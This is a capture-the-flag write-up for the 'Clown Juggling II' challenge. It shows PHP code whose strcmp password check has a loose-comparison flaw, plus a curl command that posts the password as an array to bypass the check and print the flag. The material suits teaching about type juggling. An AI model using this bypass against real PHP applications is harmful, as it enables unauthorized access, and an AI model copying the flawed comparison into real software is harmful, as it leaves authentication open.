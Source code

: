 Clown Juggling II
=================

## Challenge info:

The programmer fixed the app so the password doesn't appear in the URL bar anymore, but something tells me the core vulnerbility hasn't been fixed...
Connect to the app by browsing to: http://challenges.matrix8.net/clownjuggling2/

## Solution:

Visiting the linked site revealed a page largely similar to the one from Clown Juggling I, with the exception of a posted update that "Fixed a security issue by removing the submitted password from the URL bar". As expected, the PHP source is also mostly identical:
```php
		<?php
			if( isset($_POST['password']) ) {
				if( strcmp($_POST['password'], $password) == 0 ) {
					echo "<div class=\"alert alert-success\" role=\"alert\">The flag is " . $flag . "</div>";
				} else {
					echo "<div class=\"alert alert-danger\" role=\"alert\">Invalid Password</div>";
				}
			}
		?>
```
So the developer switched from using GET requests to POST requests, but it seems as though the same attack from Clown Juggling I would work here; thankfully, `curl` handles them as well:
```
$ curl -s -d 'password[]=%22%22' http://challenges.matrix8.net/clownjuggling2/ | grep flag
<div class="alert alert-success" role="alert">The flag is Equifax{http_post_method_wont_fix_type_juggling_attacks}</div>
```
